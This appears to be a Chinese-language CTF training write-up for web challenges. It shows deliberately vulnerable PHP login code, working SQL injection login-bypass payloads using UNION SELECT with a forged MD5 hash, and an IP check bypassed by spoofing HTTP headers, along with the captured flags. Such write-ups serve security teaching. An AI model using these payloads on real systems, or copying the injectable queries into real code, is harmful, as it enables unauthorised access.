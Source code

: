 # 2022 Summer Training 3
## Reverse shell included
> You need reverse shell for this time.
>
> http://103.102.44.218:10020/


## Not easy SQL injection
> Before the sql injection, some other things should be done...
> 
> http://103.102.44.218:10021/


## PHP POP
> Yet another competition challenge.
>
> http://103.102.44.218:10023/


## SQLI
> Inject me!
>
> http://103.102.44.218:10025/

打开链接，根据提示url后改为 /web9.php.bak，下载得到源码。

![SQLI1](pic/SQLI1.png)

```php
<html>
    <head>
        welcome to simplexue
    </head>
    <body>
    <?php
        include(__FILE__);
        if(!isset($_POST['user'])){
	        show_source(__FILE__);
	        die();
        }
        $user = $_POST[user];
        $pass = md5($_POST[pass]);

        $sql = "select pw from php where user='$user'";
        $query = mysql_query($sql);
        if (!$query) {
	        printf("Error: %s\n", mysql_error($conn));
	        exit();
        }
        $row = mysql_fetch_array($query, MYSQL_ASSOC);
        //echo $row["pw"];
  
        if (($row[pw]) && (!strcasecmp($pass, $row[pw]))) {
	        echo "<p>Logged in! Key:************** </p>";
        }
        else {
            echo("<p>Log in failure!</p>");
	    }
    ?>
        <form method=post action=index.php>
            <input type=text name=user value="Username">
            <input type=password name=pass value="Password">
            <input type=submit>
        </form>
    </body>
    <a href="index.txt">
</html>
```

注意到用了md5加密password，故构造：（其中 `0cc175b9c0f1b6a831c399e269772661` 是 `a` 的32位md5值）

```
用户名：a' and 1=1 union select concat('0cc175b9c0f1b6a831c399e269772661') # 
密码：a
```

成功登录，获得flag：CTF{simple_sqli}

![SQLI2](pic/SQLI2.png)

## Simple SQLI
> Finish this very fast and warm up!
>
> http://103.102.44.218:10026/

打开链接，根据提示url后改为 /web9.php.bak，下载得到源码。

![simsql1](pic/simsql1.png)

```php
<html>
    <head>
        welcome to simplexue
    </head>
    <body>
    <?php
        include("../web9/db.php");
        $user = $_POST[user];
        $pass = md5($_POST[pass]);

        $sql = "select user from php where (user='$user') and (pw='$pass')";
        $query = mysql_query($sql);
        if (!$query) {
	        printf("Error: %s\n", mysql_error($conn));
	        exit();
        }
        $row = mysql_fetch_array($query, MYSQL_ASSOC);
        //echo $row["pw"];
        if($row['user']=="admin") {
            echo "<p>Logged in! Key: *********** </p>";
        }

        if($row['user'] != "admin") {
            echo("<p>You are not admin!</p>");
        }
    ?>
        <form method=post action=index.php>
            <input type=text name=user value="Username">
            <input type=password name=pass value="Password">
            <input type=submit>
        </form>
    </body>
    <a href="index.txt">
</html>
```

主要处理与上一题相同，这题最主要还是看如何绕过括号的限制。构造：
```
用户名：') or 1=1 union select concat('admin') # 
```

成功登录，获得flag：CTF{ANOTHER_simple_sqli}

![simsql2](pic/simsql2.png)

## What's my IP address?
> The super duper IP address plus!
>
> http://103.102.44.218:10027/

打开链接，是php源码。

```php
<?php
include("flag.php");
function GetIP(){
    if(!empty($_SERVER["HTTP_CLIENT_IP"]))
        $cip = $_SERVER["HTTP_CLIENT_IP"];
    else if(!empty($_SERVER["HTTP_X_FORWARDED_FOR"]))
        $cip = $_SERVER["HTTP_X_FORWARDED_FOR"];
    else if(!empty($_SERVER["REMOTE_ADDR"]))
        $cip = $_SERVER["REMOTE_ADDR"];
    else
        $cip = "0.0.0.0";
    return $cip;
}

$GetIPs = GetIP();
echo $GetIPs;

if ($GetIPs=="1.1.1.1") {
    echo "Great! Key is $flag";
}
else {
    echo "Error! Your IP address isn't in the legal range!";
}
show_source(__FILE__);
?>
```

用Burp Suite抓包，修改http文件头，发送得flag：flag{d9824328210b0bb774c3b27db3bc8acc}。

![ip](pic/ip.png)